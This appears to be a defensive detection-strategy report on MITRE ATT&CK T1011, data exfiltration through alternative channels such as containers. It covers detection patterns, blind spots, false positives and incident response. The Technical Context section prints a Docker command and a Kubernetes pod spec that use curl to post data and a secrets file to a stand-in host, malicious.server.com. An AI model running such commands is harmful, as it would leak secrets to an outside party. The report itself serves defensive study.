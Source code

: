 # Alerting & Detection Strategy Report: Exfiltration Over Other Network Medium (T1011)

## Goal
The primary objective of this technique is to detect adversarial attempts to bypass security monitoring systems by using non-standard methods for data exfiltration, such as containers. This involves identifying suspicious activities that leverage alternative network mediums for transferring sensitive information out of the target environment.

## Categorization

- **MITRE ATT&CK Mapping:** T1011 - Exfiltration Over Other Network Medium
- **Tactic / Kill Chain Phases:** Exfiltration
- **Platforms:** Linux, macOS, Windows
- [MITRE ATT&CK Reference](https://attack.mitre.org/techniques/T1011)

## Strategy Abstract
This detection strategy focuses on monitoring and analyzing network traffic for unusual patterns that indicate data exfiltration via non-standard methods. Key data sources include network flow logs, container orchestration platform logs (e.g., Kubernetes), and host-based endpoint detection systems.

Patterns analyzed may include:

- Unusual outbound connections from containers or virtual environments to unexpected external IP addresses.
- Large or anomalous volumes of data being transmitted over these alternate channels.
- Encrypted traffic that cannot be easily inspected due to the use of non-standard protocols or ports.

By correlating these patterns with baseline behaviors, security systems can flag potential exfiltration attempts for further investigation.

## Technical Context
Adversaries might exploit containers and other network mediums to conceal data exfiltration activities. In practice, they may create a covert container that establishes connections to command-and-control servers using protocols like MQTT or custom HTTP APIs on non-standard ports.

**Example Commands:**

- **Docker Exfiltration Example:**
  ```bash
  docker run -d --name secret_transmitter my_image sh -c "curl -X POST -H 'Content-Type: application/json' --data '{\"data\":\"sensitive_info\"}' http://malicious.server.com/exfil"
  ```

- **Kubernetes Pod Configuration for Exfiltration:**
  ```yaml
  apiVersion: v1
  kind: Pod
  metadata:
    name: exfiltrator-pod
  spec:
    containers:
    - name: secret-extractor
      image: my_image
      command: ["curl", "-X", "POST", "--data-binary", "@/secrets.txt", "http://malicious.server.com/exfil"]
  ```

These examples illustrate how adversaries might use containerized applications to exfiltrate data without triggering traditional security measures.

## Blind Spots and Assumptions

- **Blind Spots:** Detection systems may fail to identify exfiltration if it mimics normal traffic patterns or uses sophisticated encryption that evades inspection.
  
- **Assumptions:** The strategy assumes a solid baseline understanding of normal network behavior, which is critical for identifying anomalies. Additionally, it presumes the existence of comprehensive logging from container platforms.

## False Positives
Potential false positives include:

- Legitimate data transfers initiated by applications using alternative protocols or ports for business purposes.
- Development or testing activities that simulate exfiltration scenarios within a controlled environment.
- Misconfigured network security tools leading to incorrect classification of benign traffic as malicious.

To mitigate these, analysts should consider the context and frequency of detected patterns before raising alerts.

## Priority
**Severity: High**

Justification:
Data exfiltration represents a significant threat to organizational data integrity and confidentiality. The use of alternative mediums for such activities makes detection challenging, thus necessitating high-priority monitoring and rapid response mechanisms.

## Response
When an alert indicating potential T1011 activity fires:

1. **Immediate Containment:** Isolate the affected container or host from the network to prevent further data leakage.
2. **Investigation:**
   - Examine logs for unusual traffic patterns or connections.
   - Review recent changes in configuration that might have introduced vulnerabilities.
3. **Remediation:**
   - Patch any identified security gaps.
   - Update firewall rules to restrict non-standard protocols and ports as necessary.
4. **Post-Incident Analysis:** Conduct a thorough review of the incident to refine detection strategies and prevent recurrence.

## Additional Resources
Further resources and context on this topic are currently unavailable, but ongoing research and updates from cybersecurity communities can provide valuable insights for enhancing this strategy over time.